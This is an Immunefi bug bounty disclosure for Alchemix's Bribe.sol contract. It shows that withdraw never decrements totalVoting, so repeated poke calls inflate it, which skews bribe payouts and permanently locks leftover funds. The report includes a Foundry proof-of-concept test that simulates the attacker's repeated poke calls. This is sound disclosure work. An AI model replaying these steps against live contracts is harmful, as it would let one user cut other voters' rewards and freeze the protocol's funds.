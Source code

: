 # 31520 - \[SC - Critical] Incorrect accounting of totalVoting leads to pe...

Submitted on May 21st 2024 at 00:33:37 UTC by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31520

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:

* Permanent freezing of funds

## Description

## Brief/Intro

Incorrect accounting of `totalVoting` leads to permanent freeze of funds in Bribe contract and incorrect bribe distribution.

## Vulnerability Details

In `Voter.sol` In an epoch user can vote by calling `vote` function or poke by calling `poke` function if user has already voted in that epoch or previous epoch. User is also allowed to call `poke` function multiple times in an epoch, calling `poke` function multiple times does not changes the vote and does not inflate voting power. When vote or poke is called in an epoch, user becomes eligible for claiming bribes in next epoch. When user calls `vote` or `poke` function two external calls are made to bribe contract `withdraw` and `deposit` functions respectively . when voting power is zero call to `withdraw` function is skipped.

In `Bribe.sol`

```solidity
function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }
```

When `deposit` is called these state variables `totalSupply`,`balanceOf[tokenId]` and `totalVoting` are updated with voting power of user.

In `Bribe.sol`

```
function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```

But when `withdraw` is called only `totalSupply` and `balanceOf[tokenId]` state variables are updated.

```
function earned(address token, uint256 tokenId) public view returns (uint256) {
       //...//
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes; // getting inflated totalVotes

               //...//
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
       //...//
       uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes; // getting inflated totalVotes 
        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```

The issue is when poke is called by a user multiple times `totalVoting` is inflated which causes incorrect calculation of bribe reward for all the participating users.

> The POC steps are as follows

* User A and User B(BlackHat) create two token with same amount and maxLock enabled.
* In Epoch 1 user A votes in `Voter.sol` contract by calling `vote` function .
* User B (BlackHat) votes in `Voter.sol` contract by calling `vote` function
* User B calls `poke` function multiple times from `Voter.sol` contract and inflating `totalVoting` variable of Bribe contract.
* Epoch 2 starts and now both user claims their bribes but because of BlackHat both user gets incorrect bribes less than what they should have gotten , they should have received half of total token balance of Bribe contract each.
* The bribe contract is left with remaining token balance which cannot be claimed later.

## Impact Details

* The vulnerability leads to incorrect bribe distribution , all voter receives less bribe reward than they should have received.
* The remaining bribe reward is forever locked in the bribe contract.
* Funds are lost for protocol and participating users.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L303-329 https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L221-280

## Proof of Concept

* Add this test to `src/test/Voting.t.sol` and run with `forge test --mt testPocBribeAccountingErrorwithPoke --rpc-url $RPC_URL -vvvv`

```solidity
    function testPocBribeAccountingErrorwithPoke() public {

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); 
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); 

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef votes
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
    
        //admin(BLACKHAT) votes
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        //Attack happening here
        for(uint256 i = 0;i<10;i++){
            vm.prank(admin);
            voter.poke(tokenId1);
        }
        

        //start 2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        uint256 balanceEnd = IERC20(bal).balanceOf(bribeAddress);
        assertGt(balanceEnd,0,"balance should have been zero but it is greater than 0");
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        // start 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //remaining balance is locked in the contract and can no longer be claimed
        assertEq(balanceEnd1,balanceEnd);

    }
```
